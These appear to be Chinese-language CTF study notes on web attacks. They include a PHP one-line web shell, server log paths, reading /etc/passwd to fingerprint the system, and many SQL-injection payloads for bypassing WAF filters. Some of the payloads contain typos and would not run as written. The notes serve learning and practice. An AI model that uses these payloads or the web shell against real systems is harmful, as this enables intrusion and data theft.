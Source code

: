 对于Apache，日志存放路径：/var/log/apache/access.log

对于Ngnix，日志存放路径：/var/log/nginx/access.log 和 /var/log/nginx/error.log

可以尝试读取 `/etc/passwd` 如果可行则代表操作系统为 Linux

---

（这似乎是一句很常用到的木马？）

`<?php @eval($_POST['CMD']);?> `

---

php语法中，如果在函数前加入`!`则表示取反操作符，即当函数输出`true`时最终输出`flase`

---

注入点为**数值型注入**时，可往题目原访问点传一个-1,由于id通常不为负数,后端根据id查询不到内容,就只能展示联合查询的结果,从而帮助我们判断字段显示的位置

---

**几种绕过空格限制的方法：**

+ URL编码：

	1. 最常用的空格替换是 %20，这是空格的标准URL编码。
	2. 在某些情况下，%A0（代表不换行空格）也可能有效，尤其是在Mysql环境中。
	3. 其他可能的编码包括 %0A（换行）、%0B（垂直制表）、%0C（表格制表）、%0D（回车）、%09（水平制表）等，它们在特定上下文中可能被解析为空格。

+ 特殊字符：

	1. 使用全角空格（　），在一些不严格的过滤机制中可能被接受。
	2. 非打印字符，如%C2%A0（Unicode的不换行空格）。

+ 注释符和字符串连接：

	在SQL注入场景中，可以利用注释符（如-- 或 /* ... */）来规避空格需求，或者在条件语句中使用字符串连接符（如MySQL中的concat()函数）来构造无需空格的语句。

+ 编码转换：
	利用HTML实体编码，如 &#32; 表示空格，但这通常不适用于URL或查询参数，更适合于HTML内容本身。

+ 多字节字符：
	某些多字节字符（尤其是全角字符或特殊Unicode字符）在某些系统或库中可能被解释为空格。

+ 利用编程语言特性：
	在一些语言中，如Python，空格在某些上下文中可能不是必需的（如使用点号访问属性时）。

+ 调整语法结构：
	重新组织SQL查询或其他命令的结构，避免需要空格的地方。

+ 利用特定漏洞或弱点：
	如文件路径处理中的特殊案例，可能允许使用非标准字符作为路径分隔符。

---

在linux中，/var/www/html为网站文件默认存放位置

---

SQL注入

**注释符**

```
'#', '--+', '-- -', '%23', '%00', '/**/'
```

 **"and、or" 过滤**

```SQL
可以使用"&&"和"||"代替
?id=1 && 1=1 --+

# 盲注，异或运算相同为0，不同为1；根据返回值0，1判断
?id=1 union select (substr(database(),1,1)='s') ^ 0 --
```

**大小写绕过**

```SQL
id=-1' UnIoN SeLeCT xxx
```

**双写绕过**

适用于将关键词置空的场景

```SQL
id=-1'UNIunionONSeLselectECT1,2,3–-
```

**编码绕过**

可以使用URL，hex，ASCII等编码绕过

例如'or 1=1

```SQL
27%20%4F%52%201%3D%31%20%2D%2D
```

**注释绕过**

内联注释/**/将关键词分隔开

```SQL
id=1' UN/**/ION SE/**/LECT database() --
```

#### 空格过滤

内联注释代替空格

```SQL
id=1/**/and/**/1=1
```

括号嵌套

```SQL
select(group_concat(table_name))from(information_schema.taboles)where(tabel_schema=database());
```

制表符、换行、不可见空格

```SQL
%09(制表符), %0a(换行), %0b(垂直制表符), %0d(回车), %a0(不间断空格)
```

反引号

```SQL
union(selecttable_name,table_typefrominformation_schema.tables);
```

#### 比较符号 "=、<、>"过滤

in()

```SQL
ascii(substr(select database(),1,1)) in(115);        //根据回显判断
```

like

```
like代替'='
```

正则表达式

```SQL
select database() regexp '^s'; //根据回显判断
```

#### 逗号过滤

逗号被过滤时可以使用from...for...

```SQL
select substr(select database() from 1 for 1);
select substr(select database() from 2 for 1);
```

limit中的逗号可以替换成offset

```SQL
select * from users limit 1 offset 2;
```

需要注意，limit 1,2 指的是从第一行往后取2行（包括第一行和第二行)；而limit 1 offset 2是从第一行开始只取第二行
